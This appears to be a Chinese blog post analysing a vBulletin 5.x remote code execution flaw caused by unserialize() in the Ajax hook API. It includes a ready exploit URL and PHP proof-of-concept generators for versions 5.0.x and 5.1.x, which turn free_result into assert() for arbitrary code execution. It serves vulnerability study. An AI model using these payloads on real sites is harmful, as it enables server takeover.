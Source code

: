 ```yaml
---
layout: post
title: "unserialize() 实战之 vBulletin 5.x.x 远程代码执行"
tags: [web, php, security]
author: RickGray
---
```


vBulletin 的一枚 RCE 利用和简要的分析被曝光，产生漏洞的原因源于 vBulletin 程序在处理 Ajax API 调用的时候，使用 `unserialize()` 对传递的参数值进行了反序列化操作，导致攻击者使用精心构造出的 Payload 直接导致代码执行。关于 PHP 中反序列化漏洞的问题可以参考 OWASP 的[《PHP Object Injection》](https://www.owasp.org/index.php/PHP_Object_Injection)。

使用 [原文](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq) 提供的 Payload 可以直接在受影响的站点上执行 `phpinfo(1)`：

![](http://rickgray.me/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/1.png)

具体 Payload 的构造过程也文中有所提及，但是笔者在对 vBulletin 5.1.x 版本进行测试的时候，发现原本的 Payload 并不能成功，甚是疑惑。然而在深入分析后，发现在具体利用的时候还需要结合 vBulletin 程序本身的一些代码结构才能得到一个较为通用的 Payload，通过下面的分析后就能够明白。

### 一、反序列化触发点跟踪

虽然此次漏洞 `unserialize()` 函数的触发在曝光的文章中已经描述的很清楚了，并且对整个关键代码的触发流程也进行了说明，但是在深入跟踪和分析时，觉得还是有值得注意和学习的地方。

    http://172.16.96.130/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2a%00db%22%3BO%3A11%3A%22vB_Database%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7Ds%3A12%3A%22%00%2a%00recordset%22%3Bi%3A1%3B%7D

通过观察服务端在处理PHP时的调用栈，可知服务端在处理上述请求时，会将 `ajax/api/hook/decodeArguments` 作为路由参数 `$_REQUEST['routestring']` 传递给地址路由处理过程。因其符合 `ajax/api/[controller]/[method]` 的 Ajax API 请求路由格式，会再调用 `vB5_Frontend_ApplicationLight` 实例中的 `handleAjaxApi()` 函数来进行相应的模块加载并调用处理函数：

{% highlight php %}
protected function handleAjaxApi()
{
	$routeInfo = explode('/', $_REQUEST['routestring']);

	if (count($routeInfo) < 4)
	{
		throw new vB5_Exception_Api('ajax', 'api', array(), 'invalid_request');
	}
	$params = array_merge($_POST, $_GET);
	$this->sendAsJson(Api_InterfaceAbstract::instance(Api_InterfaceAbstract::API_LIGHT)->callApi($routeInfo[2], $routeInfo[3], $params, true));
}
{% endhighlight %}

请求的 `ajax/api/hook/decodeArguments` 会实例化 `hook` 类然后调用 `decodeArguments()` 函数，原文中所提及的触发点就在此处：

{% highlight php %}
	public function decodeArguments($arguments)
	{
		if ($args = @unserialize($arguments))
		{
			$result = '';
			
			foreach ($args AS $varname => $value)
			{
				$result .= $varname;
{% endhighlight %}

通过反序列化，我们可以使之能生成在执行环境上下文中已经定义好了的类实例，并通过寻找一个含有 `__wakeup()` 或者 `__destruct()` 魔术方法存在问题的类来进行利用。然后原文中所提到的利用方法并不是这样，其使用的是继承于 PHP 迭代器类型的 `vB_dB_Result` 类，由于 `$args = @unserialize($arguments)` 产生了一个迭代器 `vB_dB_Result` 类实例，因此在后面进行 `foreach` 操作时会首先调用其 `rewind()` 函数。

而在 `rewind()` 函数处理过程中，会根据实例变量状态进行调用：

{% highlight php %}
	public function rewind()
	{
		if ($this->recordset)
		{
			$this->db->free_result($this->recordset);
		}
{% endhighlight %}

这里就可以通过反序列化来控制 `$this->recordset` 的值，并且 `$this->db->free_result` 最终会调用：

{% highlight php %}
	function free_result($queryresult)
	{
		$this->sql = '';
		return @$this->functions['free_result']($queryresult);
	}
{% endhighlight %}

`$this->functions['free_result']` 原本的初始化值为 `mysql_free_result`，但是由于反序列化的原因，我们也能控制 `vB_dB_Result` 类实例中的 `db` 成员，更改其对应的 `functions['free_result']` 为我们想要执行的函数，因此一个任意代码执行就产生了。

### 二、利用分析和完善

观察一下原文中提供的 Payload 构造 PoC：

{% highlight php %}
<?php
class vB_Database {
       public $functions = array();
       public function __construct() {
               $this->functions['free_result'] = 'phpinfo';
       }
}

class vB_dB_Result {
       protected $db;
       protected $recordset;
       public function __construct() {
               $this->db = new vB_Database();
               $this->recordset = 1;
       }
}

print urlencode(serialize(new vB_dB_Result())) . "\n";
{% endhighlight %}

通过第一部分的分析，我们已经清楚了整个漏洞的函数调用过程和原因，并且也已经得知哪些参数可以得到控制和利用。因此这里我们修改 `$this->functions['free_result'] = 'assert';` 和 `$this->recordset = 'var_dump(md5(1))';`，最终远程代码执行的的函数则会是 `assert('var_dump(md5(1))')`：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/2.png)

这个时候其实 RCE 已经非常的顺利了，但是在进行测试的时候却发现了原文所提供的 PoC 只能复现 5.0.x 版本的 vBulletin，而 5.1.x 版本的却不可以。通过本地搭建测试环境，并使用同样的 PoC 去测试，发现在 5.1.x 版本中 `vB_Database` 被定义成了抽象类：

{% highlight php %}
abstract class vB_Database
{
	/**
	 * The type of result set to return from the database for a specific row.
	 */
{% endhighlight %}

抽象类是不能直接进行实例化的，原文提供的 PoC 却是实例化的 `vB_Database` 类作为 `vB_dB_Result` 迭代器成员 `db` 的值，在服务端进行反序列化时会因为需要恢复实例为抽象类而导致失败：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/3.png)

这就是为什么在 5.1.x 版本上 PoC 会不成功的原因。然后要解决这个问题也很容易，通过跟踪调用栈，发现程序在反序列化未定义类时会调用程序注册的 `autoload()` 方法去动态加载类文件。这里 vBulletin 会依次调用 `includes/vb5/autoloader.php` 中的 `_autoload` 方法和 `core/vb/vb.php` 中的 `autoload()` 方法，成功加载即返回，失败则反序列化失败。所以要想继续使用原有 PoC 的思路来让反序列化后会执行 `$this->db->free_result($this->recordset);` 则需要找到一个继承于 `vB_Database` 抽象类的子类并且其源码文件路径能够在 autoload 过程中得到加载。

通过搜索，发现有如下类继承于 `vB_Database` 抽象类及其源码对应的路径：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/4.png)
    
而终代码进行进行 autoload 的时候会解析传递的类名来动态构造尝试加载的源码文件路径：

{% highlight php %}
...省略
	$fname = str_replace('_', '/', strtolower($class)) . '.php';

	foreach (self::$_paths AS $path)
	{
		if (file_exists($path . $fname))
		{
			include($path . $fname);
			if (class_exists($class, false))
			{
				return true;
			}
{% endhighlight %}

上面这段代码存在于第一次调用的 `__autoload()` 里，可以看到对提供的类名以 `_` 进行了拆分，动态构造了加载路径（第二次 autoload() 的过程大致相同），简单分析一下就可以发现只有在反序列化 `vB_Database_MySQL` 和 `vB_Database_MySQLi` 这两个基于 `vB_Database` 抽象类的子类时，才能成功的动态加载其类定义所在的源码文件使得反序列化成功执行，最终才能控制参数进行任意代码执行。

所以，针对 5.1.x 版本 vBulletin 的 PoC 就可以得到了，使用 `vB_Database_MySQL` 或者 `vB_Database_MySQLi` 作为迭代器 `vB_dB_Result` 成员 `db` 的值即可。具体 PoC 如下：

{% highlight php %}
<?php
class vB_Database_MySQL {
       public $functions = array();
       public function __construct() {
               $this->functions['free_result'] = 'assert';
       }
}

class vB_dB_Result {
       protected $db;
       protected $recordset;
       public function __construct() {
               $this->db = new vB_Database_MySQL();
               $this->recordset = 'print("This Vuln In 5.1.7")';
       }
}

print urlencode(serialize(new vB_dB_Result())) . "\n";
{% endhighlight %}

测试一下，成功执行 `assert('print("This Vuln In 5.1.7")')`：

![]({{ site.url }}/public/img/article/2015-11-06-unserialize-attack-with-vbulletin-5-x-x-rce/5.png)

当然了，PoC 不止上面所提供的这一种写法，仅供参考而已。

### 三、小结

此次 vBulletin 5.x.x RCE 漏洞的曝光，从寻找触发点到对象的寻找，再到各种自动加载细节，不得不说是一个很好的 PHP 反序列化漏洞实战实例。不仔细去分析真的不能发现原作者清晰的思路和对程序的熟悉程度。

另外，[Check Point](http://blog.checkpoint.com/) 在其官方博客上也公布了反序列化的另一个利用点，通过反序列化出一个模版对象最终调用 `eval()` 函数进行执行（[原文](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)）。

### 参考

* [http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq)
* [https://www.owasp.org/index.php/PHP_Object_Injection](https://www.owasp.org/index.php/PHP_Object_Injection)
* [http://php.net/manual/en/class.iterator.php](http://php.net/manual/en/class.iterator.php)
* [http://www.php.net/manual/en/function.autoload.php](http://www.php.net/manual/en/function.autoload.php)
* [http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)
* [http://www.sebug.net/vuldb/ssvid-89707](http://www.sebug.net/vuldb/ssvid-89707)


